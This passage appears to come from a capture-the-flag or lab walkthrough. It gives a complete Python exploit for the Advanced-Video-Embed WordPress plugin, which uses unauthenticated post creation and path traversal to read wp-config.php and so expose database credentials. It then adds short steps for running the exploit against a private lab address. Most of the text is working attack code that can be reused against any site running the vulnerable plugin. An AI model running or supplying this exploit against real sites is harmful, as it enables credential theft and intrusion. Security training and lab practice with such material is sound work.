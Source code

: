 ### Exploitation

Use the below exploit code, the one in the above throws ssl error due to the target website configuration.

```py
#!/usr/bin/env python

# Exploit Title: Advanced-Video-Embed Arbitrary File Download / Unauthenticated Post Creation
# Google Dork: N/A
# Date: 04/01/2016
# Exploit Author: evait security GmbH
# Vendor Homepage: arshmultani - http://dscom.it/
# Software Link: https://wordpress.org/plugins/advanced-video-embed-embed-videos-or-playlists/
# Version: 1.0
# Tested on: Linux Apache / Wordpress 4.2.2

# POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

# Exploit - Print the content of wp-config.php in terminal (default Wordpress config)

import random
import urllib2
import re
import ssl

ssl._create_default_https_context = ssl._create_unverified_context
url = "https://192.168.211.148:12380/blogblog" # insert url to wordpress

randomID = long(random.random() * 100000000000000000L)

objHtml = urllib2.urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + str(randomID) + '&short=rnd&term=rnd&thumb=../wp-config.php')
content =  objHtml.readlines()
for line in content:
	numbers = re.findall(r'\d+',line)
	id = numbers[-1]
	id = int(id) / 10

objHtml = urllib2.urlopen(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
	if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line:
		urls=re.findall('"(https?://.*?)"', line)
		print urllib2.urlopen(urls[0]).read()
```

Add the url as per the target page and run the python code. Upon successfull running of the exploit direct to [https://192.168.208.148:12380/blogblog/wp-content/uploads/](https://192.168.208.148:12380/blogblog/wp-content/uploads/) URL and find there is a image file located.
